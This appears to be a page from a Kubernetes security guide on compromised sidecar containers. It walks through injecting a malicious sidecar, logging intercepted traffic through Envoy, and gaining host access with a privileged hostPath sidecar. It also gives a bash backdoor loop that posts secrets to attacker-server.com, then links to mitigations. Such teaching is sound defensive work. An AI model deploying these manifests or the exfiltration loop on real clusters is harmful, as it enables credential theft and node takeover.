 ```yaml
---
sidebar_position: 16
title: "Compromised Sidecars"
description: "How attackers exploit insecure or malicious sidecar containers to intercept data, escalate privileges, and persist within Kubernetes clusters."
---
```


# Compromised Sidecars

**Sidecar containers** in Kubernetes extend the functionality of primary application containers by handling logging, monitoring, security, or proxy services. If **misconfigured, compromised, or maliciously injected**, attackers can use sidecars to **steal sensitive data, intercept requests, escalate privileges, and persist within the cluster**.

---

## Exploitation Steps: Abusing Sidecars for Malicious Activity

An attacker exploits **insecure or compromised sidecar containers** to manipulate traffic, extract sensitive data, or maintain persistence.

### Step 1: Deploy a Malicious Sidecar

If an attacker gains control over a workload’s **PodSpec**, they inject a **malicious sidecar** to intercept application data.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-sidecar
spec:
  containers:
    - name: legitimate-app
      image: secure-app:latest
    - name: malicious-sidecar
      image: attacker/spy-container
      volumeMounts:
        - mountPath: /app-data
          name: shared-volume
  volumes:
    - name: shared-volume
      emptyDir: {}
```

Once deployed, the malicious sidecar can **exfiltrate logs, credentials, and API responses**.

### Step 2: Intercept and Modify Traffic

Sidecars are commonly used for **service mesh proxies** and **logging agents**. An attacker abuses a misconfigured sidecar to intercept **sensitive API requests**.

Example: Capturing all incoming requests in an **Envoy sidecar**:

```yaml
admin:
  access_log_path: "/dev/stdout"
  profile_path: "/var/lib/envoy/profile"
static_resources:
  listeners:
    - address: "0.0.0.0"
      filter_chains:
        - filters:
            - name: "envoy.http_connection_manager"
              config:
                codec_type: "AUTO"
                access_log:
                  - name: "envoy.file_access_log"
                    config:
                      path: "/data/logs/requests.log"
```

Captured API responses contain **JWT tokens, credentials, and user data**.

### Step 3: Abuse Privileged Sidecars for Host Access

If a sidecar runs **with elevated privileges**, an attacker can escalate access to the host.

Example: A misconfigured sidecar with **hostPath volume access**:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privileged-sidecar
spec:
  containers:
    - name: main-app
      image: secure-app
    - name: sidecar
      image: attacker/root-access
      securityContext:
        privileged: true
      volumeMounts:
        - mountPath: /host
          name: host-volume
  volumes:
    - name: host-volume
      hostPath:
        path: /
        type: Directory
```

Once inside the pod, the attacker **gains control over the Kubernetes node**.

```bash
kubectl exec -it privileged-sidecar -- /bin/sh
ls /host/etc/
```

### Step 4: Persist Within the Cluster

Attackers use **malicious sidecars** to maintain long-term access, even if the primary container is removed.

- **Hidden Reverse Shell:** The sidecar listens for remote commands.
- **Stealthy Traffic Proxy:** The sidecar routes traffic to an attacker-controlled server.
- **Scheduled Data Exfiltration:** The sidecar periodically sends logs and credentials.

Example: Backdoor inside a sidecar container:

```bash
while true; do cat /data/secrets.txt | curl -X POST -d @- http://attacker-server.com/upload; sleep 60; done
```

Even if the **main container is deleted**, the sidecar remains **running and active**.

### Result

The attacker successfully **intercepted sensitive data, modified traffic, escalated privileges, and persisted within the cluster** using a compromised or malicious sidecar.

---

## Mitigation Steps

To protect against **compromised sidecars**, follow the security best practices outlined in:

➡ **[Securing Kubernetes Sidecars](/docs/best_practices/cluster_setup_and_hardening/pod_security/compromised_sidecars_mitigation)**

This guide covers techniques such as **restricting sidecar permissions, enforcing strict security contexts, implementing service mesh policies, and monitoring sidecar activity** to prevent unauthorized use.

